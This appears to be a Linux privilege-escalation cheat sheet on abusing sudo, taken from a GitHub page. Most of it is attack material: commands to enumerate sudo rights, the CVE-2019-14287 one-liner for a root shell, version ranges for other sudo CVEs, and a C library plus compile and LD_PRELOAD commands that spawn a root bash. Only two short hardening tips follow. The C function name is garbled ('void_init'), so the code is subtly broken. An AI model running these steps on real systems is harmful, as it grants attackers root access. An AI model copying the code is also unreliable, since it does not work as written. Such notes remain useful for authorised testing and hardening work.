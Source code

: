 Permissions with SUDO
```bash
sudo -l 
cat /etc/sudoers
```
Audit CVE-2019-14287, sudo < v1.8.28
```bash
sudo -u#-1 /bin/bash
```
Audit CVE-2019-18634
- sudo < v1.8.26, pwfeedback option in /etc/sudoers
Audit CVE-2021-3156
- < v1.8.31 Ubuntu 20.04
- < v1.8.27 Debian 10
- < v1.9.2 Fedora 33
### LD_PRELOAD
Optional environment variable in `sudo -l`, allows executing a library before binary.
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() { 
	unsetenv("LD_PRELOAD");
	setgid(0); 
	setuid(0); 
	system("/bin/bash"); 
}
```
Executing malicious library
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=<PATH_TO_LIBRARY> apache2
```
### Protections
1. Always provide absolute path for binaries listed in /etc/sudoers.
2. Grant sudo rights sparingly to users, follow principle of least privilege.